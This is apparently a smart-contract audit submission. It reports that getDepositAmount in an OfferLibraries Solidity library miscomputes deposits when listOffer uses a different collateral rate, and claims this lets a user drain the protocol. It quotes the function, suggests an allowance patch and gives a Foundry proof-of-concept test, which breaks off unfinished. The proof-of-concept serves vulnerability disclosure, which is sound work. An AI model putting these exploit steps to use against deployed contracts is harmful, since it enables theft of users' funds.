 As we can see in the getDepositAmount function(L-27) in the OfferLibraries library : 

```Solidity
 function getDepositAmount(
        OfferType _offerType,
        uint256 _collateralRate,
        uint256 _amount,
        bool _isMaker,
        Math.Rounding _rounding
    ) internal pure returns (uint256) {
        /// @dev bid offer
        if (_offerType == OfferType.Bid && _isMaker) {
            return _amount;
        }

        /// @dev ask order
        if (_offerType == OfferType.Ask && !_isMaker) {
            return _amount;
        }

        return
            Math.mulDiv(
                _amount,
                _collateralRate,
                Constants.COLLATERAL_RATE_DECIMAL_SCALER,
                _rounding
            );
    }

```

This function will return the remainig amount with muldiv with collateral rate and the scaler but this is not the correct amount if the collateral rate used in the listOffer function is different from the one used in the original offer.

We can the imagine a scenario where the user use this vulnerability to drain the protocol : 

Before running the POC you must fix the bug with the allowance that I mentionned in a previous submittion 

add this if statement in the \_transfer function in the token Manager before the \_safe\_transfer\_from to ensure that the token Manager have enougth allowance : 

```Solidity
 if (_from == _capitalPoolAddr && IERC20(_token).allowance(_from, address(this)) == 0x0) {
            ICapitalPool(_capitalPoolAddr).approve(_token);
        }
```

You can copy paste this test in the PreMarkets.t.sol

```Solidity
 function test_withdrawPOC4() public {
     // We initialise the capital pool balance before the user do anything. 
      mockUSDCToken.mint(address(capitalPool), 1);
        vm.startPrank(user);
        preMarktes.createOffer(
            CreateOfferParams(marketPlace, address(mockUSDCToken), 1, 1, 10000, 0, OfferType(0), OfferSettleType(0))
        );
       address offer1Addr = GenerateAddress.generateOfferAddress(0);
        preMarktes.createTaker(offer1Addr, 1);
        //we assert that
        address stock1Addr = GenerateAddress.generateStockAddress(1);
        // The bug happen because the sender used a hire collateral rate than the one he used to create the offer
        preMarktes.listOffer(stock1Addr, 1, 40000);

```